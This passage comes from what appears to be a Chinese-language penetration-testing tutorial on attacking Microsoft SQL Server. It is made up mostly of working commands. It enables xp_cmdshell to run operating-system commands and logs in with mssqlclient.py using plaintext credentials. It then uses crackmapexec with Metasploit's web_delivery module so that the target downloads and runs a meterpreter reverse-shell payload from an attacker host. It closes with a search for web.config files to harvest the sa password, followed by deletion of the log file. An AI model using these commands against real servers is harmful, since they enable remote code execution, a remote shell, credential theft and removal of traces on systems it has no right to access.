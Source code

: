 ### 使用sqsh执行命令

```php
sqsh -S 192.168.3.130 -U sa -P "admin"
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
go
xp_cmdshell 'whoami';
go
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-d89e7cc014a4611d469a7f45400a2446cacb89b0.png)

### mssqlcliient.py连接mssql

```php
python3 mssqlclient.py administrator:123456@192.168.3.129 -port 1433 -windows-auth
enable_xp_cmdshell
xp_cmdshell "net user"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-e12d6651999cbbf05a3d4f875133119a198db44e.png)

### crackmapexec调用web\_delivery模块上线Msf

msf启动web\_delivery模块进行监听

```php
use exploit/multi/script/web_delivery
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.3.133
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-ba3a24105dae112a58e895fa4f1d954bac3f9f61.png)  
调用crackmapexec执行命令

```php
crackmapexec mssql 192.168.3.129 -u 'administrator' -p '123456' -M web_delivery -o URL=http://192.168.3.133:8080/9SwSSB2rIZOWEP
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-797f00559c231fa95e9c487740de9e76e5a705d0.png)

### 搜集mssql的sa密码

在目标网站目录下寻找config文件

```php
# dir /b /s web.config >> tmps.logs
# del tmps.logs /F
```
